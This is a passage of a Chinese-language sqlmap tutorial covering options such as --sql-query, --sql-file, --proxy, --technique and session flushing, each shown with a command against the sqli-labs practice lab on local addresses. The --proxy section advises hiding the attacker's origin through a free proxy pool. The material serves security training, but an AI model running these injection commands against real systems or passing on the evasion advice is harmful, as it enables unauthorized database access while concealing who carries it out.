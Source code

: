 ## 9. --sql-query

``` sql
执行一个sql语句，相当于--sql-shell，执行sql操作。
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/?id=1 --sql-query "user()"
```

## 10. --sql-file

``` sql
从指定文件执行sql语句
新建一个sql.sql文件，写入database();
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/?id=1 --sql-file "E:\360MoveData\Users\Administrator\Desktop\sql.sql"
```

## 11. --proxy="IP:端口"

``` sql
sqlmap.py -u http://127.0.0.1/sqli-labs-master/sqli-labs-master/Less-1/?id=1
--proxy="http://IP:端口"
使用代理进行注入检测，所发送的包都会从代理机器发送出去，可以更好的保护自己。
免费代理池：https://lab.crossincode.com/proxy/
```

## 12. --technique 

``` sql
对Less-1注入测试，会检测所有注入，发现存在四种注入技术。
指定注入类型，会大大缩短时间。
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/?id=1 --technique B
```

## 13. --fresh-queries

``` sql
清除缓存
sqlmap.py -u http://127.0.0.1/sqli-labs=/sqli-labs=/Less-1/?id=1 --fresh-queries
sqlmap每次查询都会将查询结果储存在.sqlmap文件夹中，下次再有相同的查询会调用
上次的查询结果，使用这个参数可以忽略文件中的记载结果，重新查询。
```

## 14. --flush-session

``` sql
刷新会话
sqlmap.py -u http://127.0.0.1/sqli-labs-master/sqli-labs-master/Less-1/?id=1 --flush-session --technique B
会发现开始初次检测，这就是第一次测试。
之后的测试会很快，已经有了缓存。
```

